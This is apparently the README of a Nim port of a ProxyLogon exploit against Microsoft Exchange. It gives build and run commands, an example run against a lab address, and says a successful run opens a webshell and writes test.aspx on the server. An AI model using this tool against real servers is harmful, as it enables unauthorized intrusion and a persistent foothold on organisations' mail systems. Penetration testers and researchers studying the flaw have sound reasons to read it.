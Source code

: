 ## ProxyLogon

Original PoC: https://github.com/testanull
Inspired from the exploit of hausec: https://github.com/hausec

### How to use:

Use the pre-compiled binaries, or compile it by yourself. 

`nim c -d:ssl proxylogon.nim`

Linux version : 

`./proxylogon <name or IP of server> <user@fqdn> (<debug>) (<self>)`

### Example:

Windows version :

`.\proxylogon.exe 192.168.1.111 administrator@echo.lab self`

For windows version, do not forget to copy libssl and libcrypto ddls and cacert.pem in the good folder.

If successful you will be dropped into a webshell. `exit` or `quit` to escape from the webshell (or ctrl+c)

By default, it will create a file test.aspx. This can be changed.
